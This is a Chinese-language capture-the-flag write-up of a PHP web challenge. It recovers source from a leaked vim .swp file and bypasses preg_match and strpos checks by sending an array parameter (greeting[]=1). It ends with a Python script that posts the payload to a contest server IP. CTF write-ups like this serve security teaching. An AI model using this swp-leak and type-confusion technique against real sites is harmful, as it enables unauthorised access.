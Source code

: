 web php - 2018i春秋圣诞欢乐赛
====

WriteUp
----
1. 题目 hint 里面提到了使用 vim 编辑这一点，不由得联想到 swp 文件。直接访问 `.index.php.swp`，得到 `index.php` 的 swp 文件。
2. 使用 `vim -r index.php` 命令恢复 swp 文件，得到 `index.php` 的源码。
    ```php
    <?php
    function areyouok($greeting){
        return preg_match('/Merry.*Christmas/is',$greeting);
    }

    $greeting=@$_POST['greeting'];
    if(!areyouok($greeting)){
        if(strpos($greeting,'Merry Christmas')!==false){
            echo 'Merry Christmas. '.'flag{xxxxxx}';
        }else{
            echo 'Do you know .swp file?';
        }
    }else{
        echo 'Do you know PHP?';
    }
    ?>
    ```
3. 审阅 `index.php` 源码，发现两个矛盾。首先 `preg_match` 函数不能匹配到 `/Merry Christmas/is` 模式串。然而后面 `strpos` 函数需要在字符串中找到 `Merry Christmas` 这一字符串。
4. 不由得想到 PHP 中某些函数的参数传入不正确时，并不会 error，而是 warning，并且返回一个值。  
`preg_match` 函数的第二个参数收到 `array` 时 warning，并且返回 `false`；  
`strpos` 函数的一个参数收到 `array` 时 warning，并且返回 `NULL`；  
于是乎这两个函数只要我们 POST 请求中的 greeting 字段设置为数组，也就是 `greeting[]` 就可以绕过这两个验证。
5. 构造 payload：`greeting[]=1`，得到 flag。

Script
----
```python
#!/usr/bin/python3
#coding:utf-8

import requests

r = requests.post('http://106.75.66.87/index.php', data={
    'greeting[]': 1
})

print(r.text)
```